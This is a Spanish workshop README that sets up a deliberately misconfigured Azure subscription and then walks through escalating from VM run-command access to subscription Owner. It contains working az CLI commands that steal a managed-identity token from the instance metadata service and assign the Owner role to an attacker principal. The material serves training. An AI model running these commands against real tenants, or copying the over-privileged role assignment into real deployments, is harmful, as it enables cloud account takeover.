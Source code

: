 # Escalada-de-Privilegios-en-Azure

##Fase 1: Configuración del Entorno Vulnerable

###Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name <NombreDelGrupoDeRecursos> --location eastus

###Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name <NombreDeLaIdentidad> --resource-group <NombreDelGrupoDeRecursos>

###Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

 Obtener el ID de la suscripción
subscriptionId=$(az account show --query id --output tsv)

 Obtener el ID de la entidad de servicio de la identidad administrada
principalId=$(az identity show --name <NombreDeLaIdentidad> --resource-group <NombreDelGrupoDeRecursos> --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
az role assignment create --assignee $principalId --role "User Access Administrator" --scope "/subscriptions/$subscriptionId"

###Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group <NombreDelGrupoDeRecursos> \
    --name <NombreDeLaVM> \
    --image Ubuntu2204 \
    --admin-username <UsuarioAdmin> \
    --admin-password "<ContraseñaSegura>" \
    --assign-identity <NombreDeLaIdentidad>

###Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. Este será el punto de partida para los participantes del workshop. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM
vmId=$(az vm show --resource-group "<namerg>" --name "<name-vm>" --query id --output tsv)

Crear el Service Principal con permisos sobre la VM
sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)"

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"
echo $sp_credentials
echo "--------------------------------------------------------"

Acción: Copia  (appId, password, tenant) generadas


¡Importante! Guarde y proporcione a los participantes del workshop el App ID, Password y Tenant ID generados en el último paso.

##Fase 2: Ejecución de la Escalada de Privilegios 

###2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"

2. Ejecutar un comando simple en la VM para verificar el control
az vm run-command invoke \
    --resource-group "<namerg>" \
    --name "<name-vm>" \
    --command-id "RunShellScript" \
    --scripts "ls -l /"

Esto confirma que tienen control sobre la VM.

###2.2. Descubrimiento de la Identidad Administrada
Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Obtener un token de acceso para la identidad administrada
 Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos
az vm run-command invoke \
    --resource-group "lab-escalation-rg" \
    --name "compromised-vm" \
    --command-id "RunShellScript" \
    --scripts '
   1. Instalar silenciosamente jq, una herramienta necesaria para parsear JSON
      sudo apt-get update > /dev/null 2>&1 && sudo apt-get install -y jq > /dev/null 2>&1

  2. Obtener el token de acceso de la identidad, usando jq para extraerlo
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)
        
      3. Usar el token para realizar una llamada a la API de Azure y listar recursos
        curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/<namerg>/resources?api-version=2021-04-01"
    '

Resultado Esperado: Una salida JSON con la lista de todos los recursos del grupo lab-escalation-rg. Esto prueba que el atacante ahora opera con los permisos de la identidad (User Access Administrator).

###Paso 2.3: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.
A. (En la máquina local) Obtener el Object ID del Service Principal atacante
user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"

B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante
  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
az vm run-command invoke \
    --resource-group "lab-escalation-rg" \
    --name "compromised-vm" \
    --command-id "RunShellScript" \
    --scripts '
       Iniciar sesión dentro de la VM usando su propia identidad
        az login --identity > /dev/null 2>&1

  Asignar el rol de Propietario al Object ID del atacante
 az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"
    '
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

(En la máquina local) El atacante, ahora Owner, crea un nuevo grupo de recursos
az group create --name "prueba-de-control-total" --location "westus"
